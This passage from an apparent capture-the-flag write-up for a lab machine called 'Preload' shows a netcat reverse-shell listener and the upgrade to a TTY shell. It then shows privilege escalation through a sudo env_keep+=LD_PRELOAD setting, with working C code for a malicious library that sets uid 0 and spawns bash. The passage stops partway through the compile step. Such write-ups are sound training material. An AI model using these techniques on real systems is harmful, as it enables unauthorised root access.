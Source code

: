 ##### Lastly we change the reverse shell received to a tty shell
```bash
┌──(pentester㉿kali)-[~/Preload/]
└─$nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.0.2.16] from (UNKNOWN) [10.0.2.22] 48818
paul@preload:/$ ^Z
zsh: suspended  nc -lvnp 1234

┌──(pentester㉿kali)-[~]
└─$stty raw -echo;fg
[1]  + continued  nc -lvnp 1234
                               export TERM=xterm
paul@preload:/$ 

```
Now we have a shell on the target as a local user on the system. We can use this access to read the local user flag and enumerate the system further.
```bash
paul@preload:/$ ls /home/paul
code.py  us3r.txt
```

## Post Exploitation

Local users are often given sudo rights on  a system to allow them to perform certain actions as the root user without giving them total control of the system. If we check Paul's sudo rights we will notice that Paul can run some interesting commands as root but the most interesting part is **env_keep+=LD_PRELOAD** this means that when Paul runs the sudo command it will use Paul's LD_PRELOAD environment variable and not the default one.
```bash
paul@preload:~$ sudo -l
Matching Defaults entries for paul on preload:
    env_reset, mail_badpass, env_keep+=LD_PRELOAD,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User paul may run the following commands on preload:
    (root) NOPASSWD: /usr/bin/cat, /usr/bin/cut, /usr/bin/grep, /usr/bin/tail,
        /usr/bin/head, /usr/bin/ss
```

The LD_PRELOAD environment variable allows the user to load a library before executing a binary. We can abuse this by creating a fake library that spawns a shell and since the binary is executed as root the shell will also spawn as root. We can use this C code snippet to create the fake library.
```c
#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>

void _init(){
    unsetenv("LD_PRELOAD");
    setuid(0);
    setgid(0);
    system("/bin/bash");
}
```
We can compile the code above using gcc on the target and produce a dynamic library.
```bash
paul@preload:/tmp$ cat root.c
#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>

void _init(){
```